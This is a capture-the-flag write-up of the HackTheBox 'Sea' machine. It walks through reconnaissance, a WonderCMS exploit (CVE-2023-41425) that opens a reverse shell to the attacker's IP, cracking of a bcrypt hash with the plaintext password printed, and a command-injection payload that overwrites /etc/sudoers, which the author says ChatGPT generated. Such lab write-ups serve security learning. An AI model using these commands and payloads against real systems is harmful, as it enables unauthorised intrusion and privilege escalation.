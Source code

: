 

# Sea.HTB

## Reconnaissance

### Rustscan

First, I performed a scan on all open ports to identify which services are running on the target.

```bash
rustscan -a 10.129.235.245 --ulimit 9000 -- -A -O
```

![Rustscan Output](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/rustscan.png)

The scan revealed that only the SSH and HTTP ports are exposed. After adding the IP to my hosts file, I began exploring the website. I found a PHP form at the following URL:

```html
http://sea.htb/contact.php
```

### WhatWeb Scanning

Next, I used WhatWeb to gather more information about the website.

```bash
whatweb http://sea.htb
```

The WhatWeb scan indicated that the website runs on PHP and uses cookies for session management.

```bash
http://sea.htb [200 OK] Apache[2.4.41], Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.235.245], JQuery[1.12.4], Script, Title[Sea - Home], X-UA-Compatible[IE=edge]
```

### FFUF Directory Enumeration

I used FFUF to enumerate directories on the webserver.

```bash
ffuf -u http://sea.htb/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

```bash
ffuf -u http://sea.htb/themes/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

```bash
ffuf -u http://sea.htb/themes/bike/FUZZ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
```

After 30 minutes of fuzzing, I discovered the following endpoints:

- `http://sea.htb/themes/bike/LICENSE`
- `http://sea.htb/themes/bike/README.md`

The `README.md` file contained the following information:

```bash
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find the theme in the list and click "Install".
4. In the "General" tab, select the theme to activate it.
```

### Finding the Exploit

A quick Google search led me to an exploit for WonderCMS: **CVE-2023-41425**.

```bash
https://github.com/prodigiousMind/CVE-2023-41425
```

#### Exploiting

To use this exploit, follow these steps:

1. Start a Netcat listener:

    ```bash
    nc -lnvp 6969
    ```

2. Run the Python exploit:

    ```bash
    python3 exploit.py http://sea.htb/themes 10.10.14.16 6969
    ```

3. Trigger the exploit using curl:

    ```bash
    curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.16&lport=6969' 
    ```

![User Exploit](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/user-exploit.png)

Boom! We have a shell on the machine!

![Shell](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/www-fail.png)

## Privilege Escalation to `amay`

Next, I ran **Linpeas** to look for potential privilege escalation vectors. I found an interesting file:

```bash
/var/www/sea/data/database.js
```

This file contained a password hash:

```js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
    }
}
```

### Cracking the Password Hash

I copied the hash into a file and identified it as a bcrypt hash. Then, I used **Hashcat** to crack it:

```bash
hashcat -m 3200 -a 0 hash /usr/share/seclists/rockyou.txt
```

![Hashcat](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/hashcat.png)

The password was successfully cracked:

```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

### Logging in via SSH

I logged in as `amay` using SSH:

```bash
ssh amay@sea.htb
```

![User Shell](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/user.png)

### Capturing the User Flag

```bash
cat user.txt
```

## Privilege Escalation to `root`

Running Linpeas again, I discovered a webserver running on port `8080`.

![Port 8080](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/8080.png)

### Tunneling

To access the webserver, I created an SSH tunnel:

```bash
ssh -L 6969:localhost:8080 amay@sea.htb
```

I then browsed to `http://localhost:6969` and logged in with the `amay` credentials.

![Dev Panel](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/dev-panel.png)

The webserver revealed a "System Monitor (Developing)" page where I could access log files. I found the following clue in the `access.log` file:

![Access Log](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/log.png)

### Using Burp Suite

This endpoint reads the data in the `auth.log` file and displays it on the webserver:

```bash
log_file=%2Fvar%2Flog%2Fauth.log&analyze_log=
```

![Burp Suite](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/burp.png)

I attempted to change the path to `/root/root.txt` but it failed. Then, I used a payload generated by ChatGPT to get the `root.txt` file:

```bash
log_file=/root/root.txt;cp/dev/shm/sudoers> /etc/sudoers&analyze_log
```

And there it was—the root flag!

![Root Flag](https://github.com/architmadankar/HackTheBox/blob/423c0d73d93187d4f946d6ea3eb6e849e7352adf/sea.htb/snips/burp-exploit.png)


